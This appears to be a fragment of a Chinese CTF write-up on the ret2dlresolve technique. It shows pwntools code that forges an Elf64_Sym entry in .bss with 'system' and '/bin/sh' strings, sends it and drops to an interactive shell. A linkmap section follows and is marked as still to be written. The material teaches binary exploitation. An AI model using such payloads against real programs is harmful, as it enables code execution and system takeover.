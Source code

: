 ```
# fake Elf64_Sym    bss_addr + 0x70
# (bss_addr + 0x88 - 0x3FE3C0)
bss_payload += p32(0x6ac8) + p8(12) + p8(0) + p16(0) + p64(0) +p64(0)

# bss_addr + 0x88
bss_payload += b'system' + b'\00\00' + b'/bin/sh\00'

# payload = b'a'*0x70 + p64(bss_addr) + p64(read_plt_addr)
# payload2 = b'a'*0x70 + b'a'*0x10

io.send(bss_payload)

io.interactive()
```

利用 `linkmap`:

```
待补充
```
